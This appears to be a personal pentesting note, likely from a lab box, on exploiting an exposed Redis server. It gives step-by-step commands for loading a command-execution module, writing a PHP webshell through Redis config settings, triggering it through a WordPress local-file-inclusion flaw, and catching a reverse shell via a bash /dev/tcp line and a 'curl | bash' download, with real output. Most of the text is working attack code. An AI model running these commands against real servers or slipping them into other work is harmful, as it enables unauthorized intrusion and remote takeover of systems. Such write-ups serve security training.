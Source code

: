 https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

#### Download Redis

OPTION 1:

```bash - kali
sudo apt install redis-tools
```

```bash - kali
redis-cli -h $TARGET -a Ready4Redis?
```

If password doesn't work try obtaining the [[#Redis config files]].

xxx.xxx.xxx.xxx:6379> `ping`
`PONG`

```bash - kali
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand && cd RedisModules-ExecuteCommand
```

```bash - kali
sudo make
```

Upload module.so into victim (Example by FTP):

We can google "ftp pub directory" to find that the default location is in /var/ftp/pub.

>/var/ftp/pub/module.so

### Redis RCE
```bash - kali
redis-cli -h $TARGET
```

```bash - kali
MODULE LOAD /var/ftp/pub/module.so
```

```bash - kali
system.exec "id"
```

[[Port 22 - SSH  ~#Generate key upload to victim]]

### Redis config files
Use with LFI vulnerability.

```bash - kali
curl http:$TARGET/?path=/etc/redis/redis.conf -o redis.conf
```

```bash - kali
curl http:$TARGET/?path=/etc/systemd/system/redis.service
```

#### Redis webshell
After logging in successfully:
Try with /var/www/ and /var/www/html.
```bash - kali
xxx.xxx.xxx.xxx:6379> config set dir /var/www/html
OK
xxx.xxx.xxx.xxx:6379> config set dbfilename test.php
OK
xxx.xxx.xxx.xxx:6379> set test "<?php system('id'); ?>"
OK
xxx.xxx.xxx.xxx:6379> save
(error) ERR
```

If you get an error as seen above, try obtaining redis.service file from [[#Redis config files]] and note where ReadWriteDirectories variable points to. 
```bash - kali
...
ReadWriteDirectories=-/etc/redis
ReadWriteDirectories=-/opt/redis-files
...
```

Try the steps again with the new paths:
```bash - kali
xxx.xxx.xxx.xxx:6379> config set dir /opt/redis-files
OK
xxx.xxx.xxx.xxx:6379> config set dbfilename test.php
OK
xxx.xxx.xxx.xxx:6379> set test "<?php system('id'); ?>"
OK
xxx.xxx.xxx.xxx:6379> save
OK
xxx.xxx.xxx.xxx:6379> 
```

We can then use LFI to read this file. The contents will be in Redis RDB format so let's output it to a file and run `strings`.

```bash - kali
┌──(kali㉿kali)-[~]
└─$ curl http://$TARGET/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/test.php -o test.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   193  100   193    0     0   2014      0 --:--:-- --:--:-- --:--:--  2031
                                                                                                            
┌──(kali㉿kali)-[~]
└─$ file test.php                  
test.php: Redis RDB file, version 0009
                                                                                                            
┌──(kali㉿kali)-[~]
└─$ strings test.php      
REDIS0009
        redis-ver
5.0.14
redis-bits
ctime
used-mem
aof-preamble
test
uid=1000(alice) gid=1000(alice) groups=1000(alice)
 {"success":true,"data":{"output":[]}}
```


The output from the `id` command can be found in this file. This means we can execute a reverse shell using this method. Let's start by creating a file on our kali host named **shell.sh** with the following contents.

```bash - kali
#!/bin/bash
/bin/bash -i >& /dev/tcp/$KALI/443 0>&1
```

Let's host this file using a python webserver to make it available to the target.

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

We then need to start a listener to catch the reverse shell.
![[rlwrap]]

Next, let's use our Redis session to cause the target to download and pipe **shell.sh** into `bash`.

```bash - kali
xxx.xxx.xxx.xxx:6379> config set dir /opt/redis-files
OK
xxx.xxx.xxx.xxx:6379> config set dbfilename test.php
OK
xxx.xxx.xxx.xxx:6379> set test "<?php system('curl $KALI/shell.sh | bash'); ?>"
OK
```

Finally, we trigger our reverse shell by using the WordPress LFI.

```bash - kali
curl http:$TARGET/?path=/opt/redis-files/test.php
```

This command will hang, and we will receive a connection to our listener.

```bash - kali
connect to [$KALI] from (UNKNOWN) [xxx.xxx.xxx.xxx] 45752
bash: cannot set terminal process group (551): Inappropriate ioctl for device
bash: no job control in this shell
<ite-editor/editor/extensions/pagebuilder/includes$ whoami
whoami
alice
<ite-editor/editor/extensions/pagebuilder/includes$ id
id
uid=1000(alice) gid=1000(alice) groups=1000(alice)
```
